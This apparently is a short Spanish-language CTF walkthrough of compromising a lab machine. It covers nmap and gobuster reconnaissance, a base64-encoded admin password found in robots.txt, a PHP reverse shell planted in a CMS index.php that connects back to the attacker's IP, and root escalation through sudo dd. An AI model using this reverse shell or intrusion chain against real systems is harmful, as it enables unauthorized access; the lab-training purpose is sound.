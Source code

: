 1- ping y NMAP

<img width="768" height="475" alt="image" src="https://github.com/user-attachments/assets/82dd84c0-5bad-4a5b-b4ee-2008b975fb03" />

2- gobuster para ver directorios

<img width="941" height="711" alt="image" src="https://github.com/user-attachments/assets/1e5da211-c9c5-4b9b-a69c-209644cdf032" />

3- Vemos que hay un directorio que se llama robots.txt vamos a entrar y encontramos esto : admin:c2FubHVpczEyMzQ1
ahora lo desciframos :::: echo "c2FubHVpczEyMzQ1" | base64 -d

4- Y tenemos la password y el usuario para entrar

<img width="1548" height="634" alt="image" src="https://github.com/user-attachments/assets/3cccf261-62d9-4428-a3ec-3ca8ed955ea9" />

Nos dirigimos aqui e introducimos una reverse shell dentro del codigo php de index.php

$sock = fsockopen("TUIP",1234);
$proc = proc_open('/bin/sh', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
defined('_JEXEC') or die;

Nos ponemos en escucha en nuestra terminal y ejecutamos la ruta http del index.php

<img width="233" height="48" alt="image" src="https://github.com/user-attachments/assets/5a1be667-2f20-4450-bd43-8e68361a6b45" />

Tratamos la consola ::

<img width="560" height="169" alt="image" src="https://github.com/user-attachments/assets/b3694e8b-decf-46bc-8fea-84dff6ae5d54" />

Busco algun fichero .txt o algo para seguir progresando:

<img width="507" height="40" alt="image" src="https://github.com/user-attachments/assets/32ea1a6a-99a7-4068-b6a8-d656b68a8f10" />

Dentro de este fichreo encontraremos un usuario y otra password. Vamos a usarlas.

5- Escalar a root

<img width="295" height="44" alt="image" src="https://github.com/user-attachments/assets/51c51a74-371e-420a-afca-c7e19085a769" />

Vemos que es vulnerable sudo -l , a dd y buscamos GTFOBins.

<img width="737" height="119" alt="image" src="https://github.com/user-attachments/assets/b12bc4d2-ff26-4cc3-918c-ddd3d79df3ed" />

